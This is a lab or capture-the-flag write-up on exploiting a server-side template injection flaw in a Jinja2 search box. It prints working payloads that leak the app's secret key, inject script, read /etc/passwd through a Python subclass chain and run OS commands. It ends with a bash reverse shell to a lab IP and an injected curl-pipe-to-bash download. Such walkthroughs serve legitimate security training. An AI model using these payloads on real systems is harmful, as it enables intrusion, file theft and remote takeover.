

---
---

# IML - Halloween 2020: Ep.5 – JinjaBread Man (SSTI)

This lab is exploiting a Server Side Template Injection (SSTI) vulnerability in Jinja

- Port 80 is open and we have a /admin directory:


- The actual page seems static apart from the search box:




- Since this is a SSTI box - we can assume the search box is vulnerable

- Great blog for SSTI on Jinja2:  
[https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/)

- We enter


    {{4*4}}[[5*5]] 


and it gets executed (only what's in the `{{ }}` field):


- By injecting 


```text
{{config.items()}}
```


we can get the secret_key


- We can also get XSS by using the safe command:



```text
{{'<script>alert(1);</script>'|safe}}
```



**<u>The actual SSTI:</u>**

- First we need to find the index of **_io._IOBase** (the index changes by environment):


```text
{{'abc'.__class__.__base__.__subclasses__()}}
```



- Now we can call it to test - by appending the index **[92]**:


```text
{{'abc'.__class__.__base__.__subclasses__()[92]}}
```



- We then call the **_io._RawIOBase** class by adding .__subclasses__()[0]:


```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0]}}
```



- We then call the **_io.FileIO** class by adding another .__subclasses__()[0]:


```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]}}
```



- Finally, we can use this class to construct a file object and read our file:


```text
{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/etc/passwd').read()}}
```



**<u>SSTI RCE:</u>**

- The above link shows the RCE but this is a good article as well:  
<https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/>

This RCE happens because **Flask/Jinja2 templates** have the **request object available to them**

- By using the following payload, we are basically doing **import os and os.popen('id')**:


```text
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```



- Create a bash script (rev.sh):

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.102.4.249/4444 0>&1"
```

- Set up a simple python server in the same directory

- Set up a nc listener

- Run the following in the search box:


```text
{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.102.4.249:8000/rev.sh | bash').read()}}
```


- And we have a shell back:


